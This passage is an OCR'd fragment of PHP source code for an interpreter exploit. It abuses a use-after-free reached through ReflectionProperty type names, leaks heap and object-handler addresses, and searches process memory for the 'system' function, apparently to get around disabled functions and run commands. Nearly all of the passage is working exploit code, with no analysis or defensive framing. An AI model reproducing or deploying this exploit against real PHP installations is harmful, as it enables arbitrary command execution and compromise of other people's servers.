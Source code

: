 ```php
continue;
}
$name_addr = str_pad($name_addr, 16, "0", STR_PAD_LEFT);
$name = strrev(leak2($prefix . s2b(hex2bin($name_addr), 0x00)));
$name = explode("\x00", $name)[0];
if(in_array($name, $funcs)) {
return [$name, bin2hex($prefix) . str_pad(dechex($addr), 8, "0", STR_PAD_LEFT),
$std_object_handlers, $NumPrefix];
}
}
}
function getSystem($unknown_func) {
$unknown_addr = hex2bin($unknown_func[1]);
$prefix = substr($unknown_addr, 0, 4);
$unknown_addr = hexdec($unknown_func[1]);
$start = $unknown_addr & 0x00000000ffffffff;
for($i = 0;$i < 0x800;$i++) {
$addr = $start - 0x20 * $i;
$name_addr = bin2hex(leak2($prefix . hex2bin(str_pad(dechex($addr - 0x10), 8,
"0", STR_PAD_LEFT))));
if (hexdec($name_addr) > $unknown_func[2] || hexdec($name_addr) <
$unknown_func[3]) {
continue;
}
$name_addr = str_pad($name_addr, 16, "0", STR_PAD_LEFT);
$name = strrev(leak2($prefix . s2b(hex2bin($name_addr), 0x00)));
if(strstr($name, "system")) {
return bin2hex(leak2($prefix . hex2bin(str_pad(dechex($addr - 0x10 + 0x08), 8,
"0", STR_PAD_LEFT))));
}
}
for($i = 0;$i < 0x800;$i++) {
$addr = $start + 0x20 * $i;
$name_addr = bin2hex(leak2($prefix . hex2bin(str_pad(dechex($addr - 0x10), 8,
"0", STR_PAD_LEFT))));
if (hexdec($name_addr) > $unknown_func[2] || hexdec($name_addr) <
$unknown_func[3]) {
continue;
}
$name_addr = str_pad($name_addr, 16, "0", STR_PAD_LEFT);
$name = strrev(leak2($prefix . s2b(hex2bin($name_addr), 0x00)));
if(strstr($name, "system")) {
return bin2hex(leak2($prefix . hex2bin(str_pad(dechex($addr - 0x10 + 0x08), 8,
"0", STR_PAD_LEFT))));
}
}
}
$rp = new ReflectionProperty(Test::class, 'prop');
$test = new Test;
$test -> prop = new HelperHelperHelperHelperHelperHelperHelper;
$abc = $rp -> getType() -> getName();
$helper = new HelperHelperHelperHelperHelperHelperHelper();
if (strlen($abc) < 1000) {
exit("UAF Failed!");
}
$helper -> a = $helper;
$php_heap = leak(0x10);
$helper -> a = function($x){};
$std_object_handlers = leak(0x0);
$prefix = substr($php_heap, 0, 4);
echo "Helper Object Address: " . bin2hex($php_heap) . "\n";
echo "std_object_handlers Address: " . bin2hex($std_object_handlers) . "\n";
$closure_object = leak(0x10);
```